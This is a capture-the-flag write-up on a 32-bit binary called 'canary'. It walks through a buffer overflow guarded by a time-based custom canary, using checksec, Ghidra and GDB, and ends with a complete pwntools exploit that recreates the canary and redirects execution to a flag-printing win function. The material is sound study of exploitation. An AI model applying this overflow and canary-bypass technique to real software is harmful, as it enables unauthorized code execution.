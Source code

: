 ```yaml
---
title: "CWE Challenge - Canary"
author: Michael Mendoza
date: "2023-01-15"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/canary.jpeg"
...
```


# Information Gathering

Lets first take a look at the binary.

```
lilbits@ubuntu:~/Documents/Challenges/Pwn/Canary$ file canary
canary: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=0288607cfa429a1829ea8e0b712545b0d5fa32fe, for GNU/Linux 3.2.0, with debug_info, not stripped
lilbits@ubuntu:~/Documents/Challenges/Pwn/Canary$ checksec canary
[*] '/home/lilbits/Documents/Challenges/Pwn/Canary/canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
We can see that this is a 32-bit executable with NX enabled. We can also see that the stack canary is not enabled even though the name of the challenge suggests that we should be bypassing the canary.

## Ghidra Decompilation

![Ghidra](./images/main.png)
\ **Figure 1:** Main Function

As seen in the main function, the command "date +%s" is ran and saved to the file pointer local_14. fgets is used to save the first 12 characters to the character array local_20. Afterwards, a global variable is created, this is the creation of the canary. The command used to create the canary is 'strtol' which converts the charater array of the numbers read in into an integer base 10.

After this variable is created, the value is passed to a function called read_in. Looking into the read_in function,

![Ghidra](./images/canaryCheck.png)
\ **Figure 2:** read_in Function

We can see theres a read function that allows the user to save 0x90 bytes to the buffer which can only hold 44 bytes of data. This is where the buffer overflow vulnerability occurs. Following this, there is a conditional statement where the custom canary is being tested to make sure the buffer overflow does not occur.

![Ghidra](./images/win.png)
\ **Figure 3:** read_in Function

We can see from this side of Ghidra, that the check variable is at an offset of 0x10 while the user buf is at an offset of 0x3c. This can be confirmed by running the program in GDB. We can also see the win function that cats the flag once we overwrite the instruction pointer. This is good since NX is enabled, preventing us from executing shell code on the stack.

## Debugging with GDB (GEF)

After running the process in GDB, we Dissasemble the read_in function and set a break point after the read function is called. This allows us to see what the offset is from the user input to the instruction pointer.

![Debugging](./images/gdbBreak.png)
\ **Figure 4:** Breakpoint 1

![Debugging](./images/gdbReadIn.png)
\ **Figure 5:** Finding the Offset

Here we can see that the user input starts at 0xffffd0a0 and the eip is at 0xffffd0dc. Doing some quick math, the offset is 0x3c, which was shown in Ghidra. Since the offset of the check variable was 0x10, we can get the offset from the user input to the custom Canary by subtracting 0x3c by 0x10, which is 0x2c.

So now that we know how the Canary is made and the offset to the canary check, we can create our exploit.

# Exploitation

## Python Script
In our python script, subprocess was imported so that we can run the same command to create the canary and save it to a variable. This will allow us to bypass the canary check and overwrite the instruction pointer with the address to the win function. 

```python
#! /usr/bin/env python3

from pwn import *

import subprocess as sp

target = process('./canary')

#create the date variable using the same command that created the Canary
date = sp.getoutput('date +%s')

#change the date to base 10 integer
date = int(date, 10)


log.info(f'canary value => {hex(date)}')


#create the 2 buffers

# 1st buffer (0x3c - 0x10) buffer from the user input to the canary variable
buffer = 0x2c 

# 2nd buffer (0x3c - (0x2c + 0x4)) buffer from the check variable to the instruction pointer Note: the canary value is 4 bytes which is why its added to the initial buffer of 0x2c before being subtracted by the total offset 0x3c.
buffer2 = 0xc 


payload = buffer * b'A'
payload += p32(date)
payload += buffer2 * b'A'
payload += p32(0x08049296) #address to the win function

target.sendline(payload)

target.interactive()
```

## Flag
![Flag](./images/flag.png)
\ **Figure 4:** Running the Exploit

# Conclusion
Overall, I really enjoyed how different this challenge was to the other binary exploitation challenges. Finding the offset to the canary and overwriting the instruction pointer were easy to me at this point. Figuring out how the Canary was created and being able to recreate it was the challenging part.

# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm](https://www.tutorialspoint.com/c_standard_library/c_function_strtol.htm)
3. [https://www.tutorialspoint.com/c_standard_library/c_function_fgets.htm](https://www.tutorialspoint.com/c_standard_library/c_function_fgets.htm)
4. [https://stackabuse.com/executing-shell-commands-with-python/](https://stackabuse.com/executing-shell-commands-with-python/)

